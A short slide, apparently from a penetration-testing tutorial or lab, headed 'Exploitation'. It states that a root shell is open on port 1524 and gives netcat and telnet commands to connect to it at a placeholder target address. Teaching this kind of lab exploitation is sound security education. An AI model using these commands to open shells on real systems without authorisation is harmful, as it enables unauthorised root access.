

Exploitation
It is a root shell so we can connect through netcat service or telnet.
nc <target ip address> 1524 or
telnet <target ip address> 1524